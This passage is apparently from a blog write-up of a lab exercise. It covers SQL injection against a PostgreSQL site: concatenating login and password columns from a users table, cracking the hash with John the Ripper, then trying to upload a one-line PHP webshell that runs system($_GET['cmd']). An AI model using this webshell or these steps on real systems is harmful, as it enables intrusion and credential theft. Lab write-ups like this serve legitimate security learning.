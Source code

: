 Then we can pull the information from this table using the same method. The column names `login` and `password` from the table `users` can be concatenated using `||':'||`. 

![](/pictures/sqli_pg_6.png){:height="478px" width="643px"}

Now we have the hashed password we can use [John-The-Ripper](http://www.openwall.com/john/) to crack it.

![](/pictures/sqli_pg_7.png){:height="132px" width="689px"}

Now we can log into the Admin portal and attempt to upload our webshell.

{% highlight php linenos %}
<?php
  system($_GET['cmd']);
?>
{% endhighlight %}

We are unable to upload a `.php` file without an error occuring. I tried appending different file extensions to get around it but was unsuccessful. So I had to take a peak a the course for the solution.
